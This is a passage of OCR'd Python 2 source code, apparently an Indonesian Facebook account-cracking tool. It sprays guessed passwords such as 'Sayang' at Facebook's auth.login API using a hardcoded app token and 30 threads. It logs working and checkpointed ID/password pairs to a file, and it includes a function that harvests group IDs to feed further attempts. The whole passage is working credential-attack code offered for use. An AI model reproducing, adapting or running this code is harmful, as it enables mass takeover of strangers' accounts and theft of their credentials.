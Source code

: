                                                     print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;93m' + user
                                                    print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;93m' + pass5 + '\n'
                                                    cek = open("out/super_cp.txt", "a")
                                                    cek.write("ID:" +user+ " Pw:" +pass5+"\n")
                                                    cek.close()
                                                    cekpoint.append(user+pass5)
                                                else:
                                                    pass6 = 'Sayang'
                                                    data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
                                                    q = json.load(data)
                                                    if 'access_token' in q:
                                                        print '\x1b[1;96m[✓] \x1b[1;92mBERHASIL'
                                                        print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;92m' + b['name']
                                                        print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;92m' + user
                                                        print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;92m' + pass6 + '\n'
                                                        oks.append(user+pass6)
                                                    else:
                                                        if 'www.facebook.com' in q["error_msg"]:
                                                            print '\x1b[1;96m[✖] \x1b[1;93mCEKPOINT'
                                                            print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;93m' + b['name']
                                                            print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;93m' + user
                                                            print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;93m' + pass6 + '\n'
                                                            cek = open("out/super_cp.txt", "a")
                                                            cek.write("ID:" +user+ " Pw:" +pass6+"\n")
                                                            cek.close()
                                                            cekpoint.append(user+pass6)
        except:
            pass
        
    p = ThreadPool(30)
    p.map(main, id)
    print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSelesai \033[1;97m....'
    print"\033[1;96m[+] \033[1;92mTotal OK/\x1b[1;93mCP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint))
    print("\033[1;96m[+] \033[1;92mCP File tersimpan \033[1;91m: \033[1;97mout/super_cp.txt")
    raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
    super()


def grupsaya():
    os.system('clear')
    try:
        toket=open('login.txt','r').read()
    except IOError:
        print"\033[1;96m[!] \x1b[1;91mToken invalid"
        os.system('rm -rf login.txt')
        time.sleep(1)
        keluar()
    try:
        os.mkdir('out')
    except OSError:
        pass
    os.system('clear')
    print logo
    print 42*"\033[1;96m="
    try:
        uh = requests.get('https://graph.facebook.com/me/groups?access_token='+toket)
        gud = json.loads(uh.text)
        for p in gud['data']:
            nama = p["name"]
            id = p["id"]
            f=open('out/Grupid.txt','w')
            listgrup.append(id)
